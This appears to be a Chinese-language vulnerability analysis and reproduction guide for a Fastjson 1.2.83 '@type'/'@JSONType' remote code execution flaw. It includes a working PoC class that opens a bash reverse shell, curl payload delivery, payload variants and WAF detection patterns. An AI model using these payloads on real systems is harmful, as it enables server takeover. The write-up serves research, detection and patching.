


# Fastjson 1.2.83 @JSONType Gadget-free RCE 分析与复现

## 免责声明

本文档和配套代码仅用于授权环境下的漏洞研究、本地靶场复现、代码审计和防御验证。禁止将本文档中的 PoC、检测逻辑或复现步骤用于未授权系统、互联网目标或任何违反法律法规的场景。使用者应自行确保测试目标、网络环境和操作行为均已获得明确授权，并自行承担因不当使用造成的后果。

## 漏洞简介

Fastjson 1.x 在 `ParserConfig.checkAutoType` 中，当 SafeMode 未启用时，会通过 `ClassLoader.getResourceAsStream` 读取 `@type` 指定的 `.class` 资源，并检查字节码是否包含 `@JSONType` 注解。如果远程 class 带有 `@JSONType`，即使 `autoTypeSupport=false`，也会进入 `TypeUtils.loadClass` 加载远程类，从而在类定义阶段触发 `<clinit>` 中的任意代码执行。该漏洞不依赖目标环境预置的第三方反序列化 gadget，但会受到应用解析入口、ClassLoader 和运行环境差异影响。

## 影响范围与条件

### 影响范围

- Fastjson `1.x`

### 漏洞利用条件

- 应用使用 Fastjson 1.x
- 请求内容可控，并进入 `JSON.parse`、`JSON.parseObject(String)` 或等价通用解析入口
- 未启用 `fastjson.parser.safeMode=true`
- 目标 ClassLoader 能处理 `jar:http://` 等特殊 URL 协议
- 目标 JVM 可以访问攻击者控制的 HTTP 服务
- 完整 RCE 还取决于 JDK 版本、ClassLoader 类型和出站网络策略

## 根因分析

Fastjson 1.2.83 的 `ParserConfig.checkAutoType` 处理不可信类型名时，按以下顺序执行：

### 1. SafeMode 入口

官方源码：[ParserConfig.java#L1325-L1331](https://github.com/alibaba/fastjson/blob/1.2.83/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java#L1325-L1331)

```java
final int safeModeMask = Feature.SafeMode.mask;
boolean safeMode = this.safeMode
        || (features & safeModeMask) != 0
        || (JSON.DEFAULT_PARSER_FEATURE & safeModeMask) != 0;
if (safeMode) {
    throw new JSONException("safeMode not support autoType : " + typeName);
}
```

这里的源码变量 `safeMode` 是 `checkAutoType` 的总闸门。只要它为 `true`，就会在执行任何类型查找、资源读取和类加载之前就抛出异常，后面的代码完全不会执行。

### 2. AutoType 状态

官方源码：[ParserConfig.java#L1333-L1336](https://github.com/alibaba/fastjson/blob/1.2.83/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java#L1333-L1336)

```java
final int mask = Feature.SupportAutoType.mask;
boolean autoTypeSupport = this.autoTypeSupport
        || (features & mask) != 0
        || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;
```

`autoTypeSupport` 是 Fastjson 为防护历史 gadget 链攻击（如 CVE-2017-18349 等）而设计的开关，默认关闭。当它为 `false` 时，`checkAutoType` 会跳过大部分需要显式 AutoType 许可的类型加载路径。在默认配置下通常是 `autoTypeSupport = false`。但这个值不会像 SafeMode 一样让 `checkAutoType` 立即返回，而是会继续向下运行。

### 3. 资源路径处理

`checkAutoType` 在通过前面的黑白名单和显式许可检查后，还会执行一段特殊逻辑。

官方源码：[ParserConfig.java#L1479-L1498](https://github.com/alibaba/fastjson/blob/1.2.83/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java#L1479-L1498)

```java
boolean jsonType = false;
InputStream is = null;
try {
    String resource = typeName.replace('.', '/') + ".class";
    if (defaultClassLoader != null) {
        is = defaultClassLoader.getResourceAsStream(resource);
    } else {
        is = ParserConfig.class.getClassLoader()
                .getResourceAsStream(resource);
    }
    if (is != null) {
        ClassReader classReader = new ClassReader(is, true);
        TypeCollector visitor = new TypeCollector("<clinit>", new Class[0]);
        classReader.accept(visitor);
        jsonType = visitor.hasJsonType();
    }
} catch (Exception e) {
    // skip
} finally {
    IOUtils.close(is);
}
```

这段代码中的 `typeName` 来自 JSON 的 `@type`。代码执行 `typeName.replace('.', '/')` 将类型名中的 `.` 替换为 `/`，然后拼接 `.class` 后缀，最后交给 ClassLoader 的 `getResourceAsStream` 进行资源读取。

在正常的 Java 类名场景下，例如 `@type=com.example.User`，经过替换后得到 `com/example/User.class`，这是标准的 JVM 类文件资源路径。但问题在于 `replace('.', '/')` 不会验证 `typeName` 是否真的是合法 Java 类名，攻击者可以构造包含特殊字符的 `typeName`，利用这个替换规则生成任意资源路径。

### 4. `jsonType` 触发加载

官方源码：[ParserConfig.java#L1500-L1517](https://github.com/alibaba/fastjson/blob/1.2.83/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java#L1500-L1517)

```java
if (autoTypeSupport || jsonType || expectClassFlag) {
    boolean cacheClass = autoTypeSupport || jsonType;
    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
}

if (clazz != null) {
    if (jsonType) {
        if (autoTypeSupport) {
            TypeUtils.addMapping(typeName, clazz);
        }
        return clazz;
    }
}
```

这段代码中，当 `autoTypeSupport`、`jsonType` 和 `expectClassFlag` 任意一个为 `true` 时就可以进入 `TypeUtils.loadClass`。`TypeUtils.loadClass` 会调用 `ClassLoader.loadClass` 或 `ClassLoader.defineClass` 来定义目标类。在类定义阶段，JVM 会执行该类的 `<clinit>`（静态初始化块）。如果 `<clinit>` 中包含恶意代码，就会在类加载时被执行，这就是 RCE 的触发点。

### 5. 类加载实现

官方源码：[TypeUtils.java#L1730-L1780](https://github.com/alibaba/fastjson/blob/1.2.83/src/main/java/com/alibaba/fastjson/util/TypeUtils.java#L1730-L1780)

`TypeUtils.loadClass` 内部会先尝试从缓存中查找已有类，如果不存在则调用 `ClassLoader.loadClass` 或直接通过 `ClassLoader.defineClass` 定义新类。但是 `URLClassLoader` 会解析 URL 并下载远程 class 字节码，然后交给 JVM 进行类定义。

### 如何控制流程？

所以要想执行任意代码，就需要让流程走到 `autoTypeSupport || jsonType || expectClassFlag` 为 `true` 的分支，进入 `TypeUtils.loadClass`。而：

- **`autoTypeSupport`**：由服务器端配置决定，攻击者无法控制。
- **`expectClassFlag`**：由 API 调用方传入的 `expectClass` 参数控制，攻击者无法控制。
- **`jsonType`**：当 `getResourceAsStream` 读取到的 class 字节码中带有 `@JSONType` 注解时被设为 `true`，**攻击者可以控制**。

因此攻击者唯一可行的路径是让 `jsonType=true`。要实现这个目标，需要解决两个问题：

**问题一：如何让 `getResourceAsStream` 返回非 null？**

正常 `typeName` 是 `com.example.User`，`getResourceAsStream` 读取的是本地的 `com/example/User.class`。攻击者无法在目标服务器上放置文件，但可以利用 `replace('.', '/')` 的替换规则构造特殊的 `typeName`：

```
攻击者构造的 typeName： jar:http:..2130706433:19090.probe!.GenProbe
经过 replace('.', '/')：   jar:http://2130706433:19090/probe!/GenProbe
拼接 .class：              jar:http://2130706433:19090/probe!/GenProbe.class
```

这样 `getResourceAsStream` 的资源路径变成了一个 `jar:` 协议 URL。`URLClassLoader` 支持 `jar:` 协议，会将其解释为远程 HTTP 请求，从攻击者服务器下载 `GenProbe.class`。

还有一个容易踩坑的点：Fastjson 后续调用 `TypeUtils.loadClass(typeName, ...)` 时仍然使用原始 `@type` 字符串作为类名。因此远程 class 的内部类名也必须与 `@type.replace('.', '/')` 后的名字一致。`serve.py` 会自动修补 class 常量池中的 `this_class`，例如把 `com/alibaba/fastjson/poc/GenProbe` 修补为 `jar:http://2130706433:19090/probe!/GenProbe`。否则只能看到 `/probe` 被下载，无法进入 `<clinit>`，也就不会出现 `/beacon` 或反弹 shell。

**问题二：如何让 `jsonType=true`？**

`getResourceAsStream` 读取到 class 字节码后，Fastjson 会用 ASM 解析字节码，调用 `TypeCollector.hasJsonType()` 检查类上是否声明了 `@JSONType` 注解。因此攻击者需要：

1. 编写一个 Java 类，在类上声明 `@com.alibaba.fastjson.annotation.JSONType` 注解
2. 在 `<clinit>` 静态初始化块中写入任意恶意代码
3. 编译为 `.class` 文件，打包成 JAR，放在攻击者控制的 HTTP 服务器上

**完整攻击链路：**

`攻击者提交恶意请求` -> `服务端自动请求远程 JAR 中的 class 字节码` -> `jsonType=true` -> `TypeUtils.loadClass 定义远程类` -> `JVM 执行 <clinit>，触发恶意代码`

## PoC

### 构造原理

首先要绕过 `typeName.replace('.', '/')`，因此 `@type` **不能包含需要保留的 `.`**（如域名中的点、带点 IP）。必须使用 Java URL 能解析且**不含点**的主机标识形式：

- 整数 IP：`127.0.0.1` → `2130706433`
- 单标签主机名：`localhost`、`myhost`（不含点）

然后再利用 URL 协议和 Java 特性下载远程 class 字节码：
```text
JSON 中的 @type:
jar:http:..2130706433:19090.probe!.GenProbe

执行 typeName.replace('.', '/'):
jar:http://2130706433:19090/probe!/GenProbe.class
```

其中：
- `probe` 是 HTTP 服务器上提供的 JAR 文件名（不含 `.jar` 后缀）
- `!` 标记 JAR 内部资源路径
- `GenProbe` 是 JAR 内的入口类名

要读取其他服务器上的恶意 class，只需将 IP 换算为不含点的形式：

| 目标服务器 | 原始地址 | Java URL 可用形式 | `@type` 构造 |
|-----------|---------|-------------------|-------------|
| 本机 | `127.0.0.1:19090` | `2130706433` | `jar:http:..2130706433:19090.probe!.GenProbe` |
| 示例远程 | `111.111.11.11:8080` | `1869548299` | `jar:http:..1869548299:8080.probe!.GenProbe` |

整数 IP 换算公式：`a.b.c.d` → `a×256³ + b×256² + c×256 + d`

### 恶意类构造

以下是完整的恶意类示例代码（[poc/GenProbe.java](poc/GenProbe.java)）：

```java
package com.alibaba.fastjson.poc;

import com.alibaba.fastjson.annotation.JSONType;

@JSONType  // 关键: 这个注解使 Fastjson 的 jsonType=true
public class GenProbe {

    // <clinit> 静态初始化块 - 在类定义阶段自动执行
    static {
        // 1. HTTP 回调验证 - 确认类被成功加载
        httpGet("http://127.0.0.1:19090/beacon");

        // 2. 标准 bash 反弹 shell
        //    使用 bash -i >& /dev/tcp/IP/PORT 0>&1
        bashRevShell("127.0.0.1", 4444);
    }

    /** 标准 bash 反弹 shell */
    static void bashRevShell(String host, int port) {
        try {
            String cmd = "bash -i >& /dev/tcp/" + host + "/" + port + " 0>&1";
            Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", cmd});
        } catch (Exception ignored) {}
    }

    /** HTTP 回调验证 */
    static void httpGet(String url) {
        try { new java.net.URL(url).openStream().close(); } catch (Exception ignored) {}
    }
}
```

然后编译并打包为 JAR：

```bash
# 生成默认 poc/probe（文件内容是 JAR，无 .jar 后缀）
# 默认回调地址为 127.0.0.1:4444，payload host 为 2130706433
python3 serve.py --build-only --force-build

# 使用宿主机 LAN IP 作为回调地址时，需要重新生成 probe：
python3 serve.py --build-only --force-build --cb-host 192.168.1.1 --cb-port 4444
```

### 协议与 ClassLoader 范围

`jar:http://` 是 Java 标准 JAR URL 复合协议。当前 PoC 的 RCE 路径依赖 `jar:http` 这类 JAR 复合协议，纯 `http:` / `https:` 不能完成这条 RCE 链。

| 协议 | 是否支持 | 说明 |
|------|---------|------|
| 纯 `http:` / `https:` | 不支持当前 RCE 链 | 不是 JAR URL，无法同时表达远程归档文件和 JAR 内 entry，不能完成当前 PoC 的类定义链 |
| `file://` | 本地文件可控时可用 | 读取目标本地文件系统，不是远程 HTTP 投递链 |
| `jar:http://` | 当前 PoC 支持 | 复合协议，格式为 `jar:{url}!/{entry}`，用于通过 HTTP 下载远程 JAR 并读取内部 class entry |
| `jar:https://` | 条件成立时可用 | 需要 HTTPS 服务、目标 JVM 信任证书，并且 class 内部名同步修补为 `jar:https://...` |
| `jar:file://` | 本地 JAR 可控时可用 | 读取目标本地 JAR 文件，不是远程 HTTP 投递链 |
| `ftp://` | 不作为可用链 | 不属于当前项目验证链，且无法满足当前 PoC 对 JAR entry 和类定义链的要求 |
| `ldap://` | **不支持** | LDAP 协议不是 `URLClassLoader` 的标准协议，无内置 handler；LDAP 攻击向量属于 JNDI 注入（如 Log4Shell），攻击路径完全不同 |
| `rmi://` | **不支持** | RMI 协议无 `URLClassLoader` 的 handler，同上属于 JNDI 注入范畴 |

因此，只有同时满足 Fastjson 解析入口可控、SafeMode 未启用、目标 ClassLoader 支持 `jar:http://` 资源读取、目标 JVM 可出站访问攻击者 HTTP 服务等条件时，远程 RCE 链才能闭合。普通 `java -jar` 或 `java -cp` 启动的应用如果 ClassLoader 委托链中不含 `URLClassLoader` 或兼容实现，则无法利用 `jar:http://`。

#### 路径与分隔符变形

```bash
# 标准形式
{"@type":"jar:http:..2130706433:19090.probe!.GenProbe"}

# 路径层级增加：需要 HTTP 服务存在 /probe/prod，且 class 内部名同步匹配
{"@type":"jar:http:..2130706433:19090.probe.prod!.GenProbe"}

# 入口类名替换：需要 JAR entry 和 class 内部名同步匹配
{"@type":"jar:http:..2130706433:19090.probe!.GenProbe"}
# 不是当前 serve.py 的默认产物，仅说明格式可变:
{"@type":"jar:http:..2130706433:19090.probe!.com.alibaba.fastjson.poc.GenProbe"}
```

#### 嵌套位置变形

`@type` 可以出现在 JSON 的不同层级位置：

```bash
# 顶层 @type
{"@type":"jar:http:..2130706433:19090.probe!.GenProbe"}

# 嵌套对象内的 @type（某些应用只递归解析嵌套对象）
{"user":{"@type":"jar:http:..2130706433:19090.probe!.GenProbe"}}

# 数组内的 @type
[{"@type":"jar:http:..2130706433:19090.probe!.GenProbe"}]

# 多层级嵌套
{"data":{"user":{"@type":"jar:http:..2130706433:19090.probe!.GenProbe"}}}
```

#### 绕过检测规则的建议

WAF 检测不应只匹配固定特征（如 `2130706433` 或 `jar:http:`），应关注：

- `@type` 值中出现 `jar:`、`http:`、`file:`、`https:` 等 URL 协议前缀
- `@type` 值中出现 `..`（`replace('.','/')` 的逆向构造痕迹）
- `@type` 值中出现 `!` 字符
- 从 JVM 进程发往非预期端口的出站 HTTP 请求
- 同一请求中 `@type` 值包含特殊 URL 语法且返回状态异常

## 漏洞复现

### 环境搭建

靶场服务支持两种部署方式：

#### 方式一：Docker / Podman 部署（推荐）

```bash
cd lab
docker-compose up -d
```

使用 Podman 时执行：

```bash
cd lab
podman compose up -d
```

`docker-compose.yml` 使用 `image + volumes` 轻量化挂载模式，直接运行预构建的 `app.jar`，无需构建镜像。

#### 方式二：直接 `java -jar` 运行

```bash
java -jar lab/app.jar
```

需要 Java 8 运行环境，应用默认监听 `18080` 端口。

### 手工验证

**步骤 1：确认靶场正常运行**

```bash
curl -s http://127.0.0.1:18080/info
```

**步骤 2：启动攻击环境**

```bash
# 默认 127.0.0.1:4444
python3 serve.py

# 或传递 IP 和端口
python3 serve.py --cb-host 192.168.1.1 --cb-port 4444
```


**步骤 3：发送 PoC payload**

```bash
# 注意: 3232235777 是 192.168.1.1 的整数形式；以 serve.py 实际输出为准
curl -X POST \
  -H 'Content-Type: application/json' \
  --data '{"@type":"jar:http:..3232235777:19090.probe!.GenProbe"}' \
  http://127.0.0.1:18080/parse
```

**步骤 4：验证 exploit 效果**



## 不同 JDK 的结果

该漏洞在不同 JDK 版本下的表现差异主要源于 JVM 模块系统（JPMS）对 `ClassLoader.defineClass` 的访问限制。**以下数据中，JDK 8 和 JDK 21 来自原始 PoC 披露者的实测结果，JDK 11 和 JDK 17 是基于模块系统变化得到的未验证分析，不能替代目标环境实测。**

| JDK 版本 | 资源请求 | 类定义 | RCE 成功 | 详细说明 | 数据来源 |
|---------|---------|--------|---------|---------|---------|
| JDK 8uXXX | 成功 | 成功 | 是 | `URLClassLoader` 完整支持 `jar:http://`，`defineClass` 正常执行 `<clinit>` | 实测确认 |
| JDK 11 | 需实测 | 需实测 | 需实测 | JPMS 模块系统首次引入（JEP 261），类定义行为受 ClassLoader、模块边界和启动参数共同影响 | 未验证分析 |
| JDK 17 | 需实测 | 需实测 | 需实测 | 强封装模块限制（JEP 403）进一步收紧了 `defineClass` 对非导出包的访问，必须以目标环境测试结果为准 | 未验证分析 |
| JDK 21 | 成功 | 失败 | 否 | 收到远程资源请求，`defineClass` 阶段出现 `ClassFormatError`，标记文件未创建 | 实测确认 |

**关键结论：**

1. **资源请求（SSRF）不等于 RCE**：当目标 ClassLoader 能解析 `jar:http://` 资源且出站网络可达时，`getResourceAsStream` 会触发目标服务器向攻击者 HTTP 服务发起请求。即使后续类定义失败，出站资源访问风险仍然存在。

2. **类定义（RCE）受 JDK 与 ClassLoader 共同影响**：JDK 9+ 引入的模块系统（JPMS）和强封装会影响 `ClassLoader.defineClass` 的行为，但最终结果由 JDK 版本、ClassLoader 实现、模块边界和启动参数共同决定。

3. **ClassLoader 类型比 JDK 版本更重要**：即使在同一 JDK 版本下，不同的 ClassLoader 实现（`URLClassLoader` vs `LaunchedURLClassLoader` vs `AppClassLoader`）对 `jar:http://` 的支持也不同。

4. **不能仅因高 JDK 版本就排除风险**：在资源读取链成立时，SSRF / 出站资源访问风险仍然存在。

## 修复建议

1. 优先迁移 Fastjson 2.x 或替换 JSON 库。
2. 无法立即迁移时启用：`-Dfastjson.parser.safeMode=true`
3. 禁止不可信 JSON 使用 `@type`。
4. 拦截 `@type` 值中出现 `jar:`、`http:`、`file:`、`https:` 等 URL 协议前缀、`..` 模式和 `!` 字符。
5. 限制 JVM 出站 HTTP/HTTPS，尤其是到非必要网段和本机敏感服务。
